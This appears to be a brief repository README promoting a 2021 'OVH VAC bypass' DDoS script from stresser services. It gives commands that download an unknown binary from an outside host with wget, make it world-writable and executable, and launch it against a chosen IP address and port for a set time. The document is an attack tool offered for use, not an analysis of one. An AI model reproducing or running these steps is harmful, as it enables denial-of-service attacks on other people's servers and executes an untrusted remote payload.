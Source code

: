 # OVH-VAC-BYPASS
Stresser.net // OVH-VAC OVH DDOS BYPASS METHOD 2021 (WHITELIST UPDATED!)


Stresser.NET & Stresser.VIP // OVH VAC BYPASS SCRIPT 2021

wget http://upload.vina-host.com/10yiIS/jeffovh

chmod 777 jeffovh

./jeffovh IP PORT 10 -1 (Time)
